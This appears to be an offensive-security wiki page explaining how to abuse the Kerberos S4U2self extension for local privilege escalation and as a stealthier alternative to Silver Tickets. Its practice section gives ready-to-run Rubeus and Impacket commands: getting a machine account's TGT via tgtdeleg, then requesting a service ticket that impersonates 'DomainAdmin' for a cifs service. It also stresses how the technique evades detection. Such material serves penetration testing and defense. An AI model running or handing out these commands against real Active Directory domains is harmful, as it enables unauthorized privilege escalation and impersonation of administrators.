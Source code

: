 # S4U2self abuse

## Theory

The following recipe shows how to abuse S4U2self for Local Privilege Escalation, or for stealthier alternative to Silver Ticket. There are also other tricks based on S4U2self, using u2u (user-to-user) as well: [#s4u2self-+-u2u](../#s4u2self-+-u2u "mention").

### Delegation and extensions

Kerberos delegations allow services to access other services on behalf of domain users.

The "Kerberos" authentication protocol features delegation capabilities explained [here](./). Kerberos delegations can be abused by attackers to obtain access to valuable assets and sometimes even escalate to domain admin privileges. Regarding [constrained delegations](constrained.md) and [rbcd](rbcd.md), those types of delegation rely on **Kerberos extensions called S4U2Self and S4U2Proxy**.

**Service for User to Self (S4U2self)** allows a service to obtain a Service Ticket, on behalf of a user (called "principal"), to itself. This extension can be used by any account that has at least one SPN. Depending on the service and principal configurations, the resulting Service Ticket may or may not be forwardable but either way, the ticket can be used for authentication.

Last but not least, S4U2self can be used to produce a Service Ticket to oneself on behalf of another domain user, **even if that user is "sensitive for delegation" or member of the Protected Users group**. Consequently, this allows attackers, in very specific scenarios, to escalate their privileges or perform lateral movements.

### Microsoft Virtual Accounts

Since machine accounts have their own set of SPNs by default at their creation, S4U2self can be used by any machine account, without any supplementary configuration. If an attacker manages to execute code as `NT AUTHORITY\NETWORK SERVICE` __ or as any other "Microsoft Virtual Account" (e.g. `defaultapppool` __ or `mssqlservice`) he will be able to escalate his privileges by abusing S4U2self. This happens because this kind of accounts all act on the network as the machine itself.

### OPSEC considerations

The S4U2self abuse is not only a great way to perform Local Privilege Escalation or a lateral move, it's also an way more stealthier alternative to [Silver Tickets](../forged-tickets.md#silver-ticket) when an attacker has knowledge of a machine account's Kerberos keys. While a Silver Ticket is a Service Ticket featuring a forged PAC, the Service Ticket issued after an S4U2self request will be legitimate and will feature a valid PAC.

## Practice

In order to obtain local admin rights on a target machine, the attackers must be able to execute code on the machine and conduct two major steps: obtain a TGT for the machine account, and use that TGT to make a S4U2self request in order to obtain a Service Ticket as domain admin for the machine.

```powershell
Rubeus.exe tgtdeleg /nowrap
```

### 1. Machine account's TGT

This step revolves around the `tgtdeleg` feature from [Rubeus](https://github.com/GhostPack/Rubeus) which allows an attacker that has code execution on a machine to ask a TGT, which will be the machine account's TGT (cf. [Microsoft Virtual Accounts](s4u2self-abuse.md#microsoft-virtual-accounts)).

```powershell
Rubeus.exe tgtdeleg /nowrap
```

The TGT can then be used with [Pass the Ticket](../ptt.md) for the next step, which can be conducted remotely if needed, unlike this initial step.

Alternatively, if the machine account credentials are known, a TGT can be requested commonly.

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [Impacket](https://github.com/SecureAuthCorp/impacket)'s [getTGT.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getTGT.py) (Python) script can be used for that purpose. Howerver, this step is optional if getST.py is to be used later on for the S4U2self request. In this case, with the appropriate arguments, it will request a TGT automatically

```bash
getTGT.py -dc-ip "domaincontroller" -hashes :"NThash" "domain"/"machine$"
```
{% endtab %}

{% tab title="Windows" %}
From Windows machines, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used for that purpose. Howerver, this step is optional if Rubeus is to be used later on for the S4U2sel requestf. In this case, with the appropriate arguments, Rubeus will request a TGT automatically.

```powershell
Rubeus.exe asktgt /nowrap /domain:"domain" /user:"computer$" /rc4:"NThash"
```
{% endtab %}
{% endtabs %}

### 2. Obtain a Service Ticket

The TGT can then be used along with S4U2self to obtain a Service Ticket impersonating another domain user on the machine.&#x20;

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [Impacket](https://github.com/SecureAuthCorp/impacket)'s getST.py (Python) script can be used for the purpose. If needed, `.kirbi` files can be converted to `.ccache` (cf. [Pass the Ticket](../ptt.md)).

```bash
export KRB5CCNAME="/path/to/ticket.ccache"
getST.py -self -impersonate "DomainAdmin" -altservice "cifs/machine.domain.local" -k -no -pass -dc-ip "DomainController" "domain.local"/'machine$' 
```
{% endtab %}

{% tab title="Windows" %}
From Windows machines, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used for that purpose.

```powershell
Rubeus.exe s4u /self /nowrap /impersonateuser:"DomainAdmin" /altservice:"cifs/machine.domain.local" /ticket:"base64ticket"
```
{% endtab %}
{% endtabs %}

Once a Service Ticket is received, it can be used with [pass-the-ticket](../ptt.md)/[pass-the-cache](../ptc.md) to obtain access to oneself as the "DomainAdmin" (the user can be changed in the request. Attackers should select a domain user which has local admin rights on the machine).

{% hint style="info" %}
This technique can also be used when receiving TGTs during a [Kerberos Unconstrained Delegation abuse](unconstrained.md) in order to gain local admin privileges over the victims.
{% endhint %}

## Resources

{% embed url="https://exploit.ph/delegate-2-thyself.html" %}

{% embed url="https://exploit.ph/revisiting-delegate-2-thyself.html" %}

{% embed url="https://cyberstoph.org/posts/2021/06/abusing-kerberos-s4u2self-for-local-privilege-escalation" %}
